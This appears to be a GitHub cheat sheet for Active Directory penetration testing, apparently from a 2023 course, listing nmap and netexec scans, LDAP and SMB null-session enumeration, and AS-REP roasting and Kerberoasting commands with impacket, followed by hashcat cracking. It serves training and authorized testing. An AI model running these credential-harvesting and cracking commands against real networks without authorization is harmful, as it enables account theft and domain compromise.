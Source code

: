 # Active Directory Cheat sheet - ITHS2023


## Table of Contents

- [Overview](#overview)
- [Reconnaissance](#reconnaissance)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
  - [ASREPRoasting](#asreproasting)
  - [Kerberoasting](#kerberoasting)
- [Post-Exploitation](#post-exploitation)
- [Resources](#resources)

## Overview
More to come...

## Reconnaissance

### Network Enumeration
- **Enumerate SMB across a subnet:**
  ```bash
  netexec smb 10.2.10.1/24
  ```

### Nmap Scans
- **Ping scan:**
  ```bash
  nmap -sP -p
  ```
- **Quick scan:**
  ```bash
  nmap -PN -sV --top-ports 50 --open
  ```
- **SMB vulnerability scan:**
  ```bash
  nmap -PN --script smb-vuln* -p139,445
  ```
- **Classic scan:**
  ```bash
  nmap -PN -sC -sV -oA
  ```
- **Full scan:**
  ```bash
  nmap -PN -sC -sV -p- -oA
  ```
- **UDP scan:**
  ```bash
  nmap -sU -sC -sV -oA
  ```
- **Scan with no ping and save output:**
  ```bash
  nmap -sC -sV -Pn -p- -oA filename -vv
  ```

## Enumeration

### LDAP Enumeration
- **Basic LDAP search:**
  ```bash
  ldapsearch -x -h <ip> -s base
  ```
- **Nmap LDAP enumeration:**
  ```bash
  nmap -n -sV --script "ldap* and not brute" -p 389 <dc_ip>
  ```

### SMB Enumeration
- **Null session enumeration:**
  ```bash
  enum4linux -a -u "" -p ""
  ```
- **Guest session enumeration:**
  ```bash
  enum4linux -a -u "guest" -p ""
  ```
- **Check SMB shares and permissions:**
  ```bash
  smbmap -u "" -p "" -P 445 -H <ip>
  ```
- **Connect to SMB server:**
  ```bash
  impacket-smbclient domain/user@<ip>
  ```

### User Enumeration
- **List users on the domain:**
  ```bash
  enum4linux -U | grep 'user:'
  ```
- **Retrieve users via netexec:**
  ```bash
  netexec smb --users
  ```
- **Enumerate domain users via net RPC:**
  ```bash
  net rpc group members 'Domain Users' -W '' -I '' -U '%'
  ```
- **Enumerate Kerberos users:**
  ```bash
  nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='',userdb=<users_list_file>"
  ```

## Exploitation

### ASREPRoasting
- **Find users without Kerberos preauthentication enabled and save hashes:**
  ```bash
  impacket-GetNPUsers domain/ -usersfile userfile.txt -format hashcat -outputfile hashfile
  ```
- **Crack hashes using hashcat:**
  ```bash
  hashcat -m 18200 hashes wordlist.txt
  ```

### Kerberoasting
- **List users with SPNs:**
  ```bash
  impacket-GetUserSPNs domain/user:password
  ```
- **Save Kerberoast hashes:**
  ```bash
  impacket-GetUserSPNs domain/user:password -outputfile hashes -request
  ```
- **Alternative approach using netexec:**
  ```bash
  netexec ldap <dc_ip> -u <user> -p <password> -d <domain> --kerberoasting KERBEROASTING
  ```

## Post-Exploitation

- **Extract user list for OSINT:**
  Use gathered usernames for further reconnaissance on the internet to identify related information.

## Resources

- [Impacket GitHub Repository](https://github.com/SecureAuthCorp/impacket)
- [Hashcat Official Website](https://hashcat.net/hashcat/)
- [Nmap Official Documentation](https://nmap.org/docs.html)
- [enum4linux GitHub Repository](https://github.com/Carnal0wnage/enum4linux)

---

### Feedback
Contributions, corrections, or improvements are welcome. Please create a pull request or open an issue on this repository.

